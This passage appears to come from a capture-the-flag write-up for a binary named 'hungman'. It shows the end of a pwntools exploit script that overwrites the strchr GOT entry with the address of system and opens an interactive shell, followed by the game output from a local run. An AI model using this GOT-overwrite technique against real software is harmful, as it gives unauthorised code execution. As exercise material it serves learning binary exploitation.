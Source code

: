 ```
target.sendline("y")
target.sendline("qwertyuioplkjhgfdsazxcvbnm")
target.sendline("y")
print target.recvline("High score! change name?")

#Change the name to rewrite the strchr got entry to system
target.send(p64(sys_adr))

#Hand the process off to the interactive shell
target.interactive()
``` 

Here is it in action:
```
$	python recon.py 
[+] Starting local process './hungman': pid 6652
What's your name?

Welcome 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
____________________________________________________________________________________________________
q_______q_q____________________q__________________________________________________q_________________
q_______q_q______w_____________q__________________________________________________q____w_w__________
q_______q_q______w_____________q________________e_________________________________q____w_w__________
q_______q_q______w____________rq_______r____r___e_________________________________q____w_w__________
q_______q_q______w_________t__rq___t___r____r___e_t_t______t______________________q___tw_w__________
q_______q_q______w_________t__rq___t___r____r___e_t_t_y____t______________________q___tw_w__y_______
q_______q_q___u__w______u__t__rq___tu__r_u__r___eut_t_y____t_____________________uq___tw_w__y_______
q_______q_q___u__w______u__t__rq___tu__r_u__r___eut_t_y____t_____________________uq___tw_w_iy_______
q_______q_q__ou__w____o_u__t__rq___tu__r_u__r___eut_t_y____t___________o_________uq___tw_w_iy_______
q_____ppq_qp_ou__w_p__o_u__t__rq___tu__r_u__r___eut_t_y____t___________o______p__uq___tw_w_iy_______
q_____ppq_qp_ou__wlp__o_u__t__rq___tu__r_u__r___eutlt_yl___t_l_________o______p__uqll_tw_w_iy_l_____
q_____ppq_qpkou__wlp_ko_u__t__rq___tu__r_uk_r___eutlt_yl___t_l_________o______p__uqll_tw_w_iy_l____k
q_____ppq_qpkou__wlp_ko_u__t__rqj__tu__r_uk_r___eutlt_yl___t_l_________o______p__uqll_tw_w_iy_l____k
q_____ppqhqpkou__wlp_ko_u__t__rqj__tu__r_uk_r___eutlthyl___t_l_________o______p_huqll_tw_w_iy_l____k
q____gppqhqpkou__wlp_ko_u__t__rqj__tu__r_uk_r_g_eutlthyl___t_l______g__og__g__pghuqll_tw_wgiy_l____k
q____gppqhqpkou__wlp_ko_u__t_frqj__tuf_r_uk_r_g_eutlthyl___t_l_f_f__g__og__g__pghuqll_tw_wgiy_l____k
q____gppqhqpkou__wlp_kodu__t_frqj__tufdr_ukdr_g_eutlthyl___t_ldf_f__g__og__g__pghuqlldtw_wgiy_l____k
q_s__gppqhqpkou__wlp_kodu__tsfrqj_stufdr_ukdr_g_eutlthyl_s_t_ldfsf__g__og__g_spghuqlldtw_wgiy_ls___k
q_s__gppqhqpkou_awlpakodu__tsfrqj_stufdr_ukdrag_eutlthylas_t_ldfsf__g__og__g_spghuqlldtw_wgiy_ls_a_k
q_s__gppqhqpkouzawlpakodu__tsfrqj_stufdr_ukdrag_eutlthylasztzldfsf__g__og__g_spghuqlldtw_wgiy_lsza_k
qxsx_gppqhqpkouzawlpakodu_xtsfrqj_stufdr_ukdrag_eutlthylasztzldfsf__g__og__g_spghuqlldtw_wgiy_lsza_k
```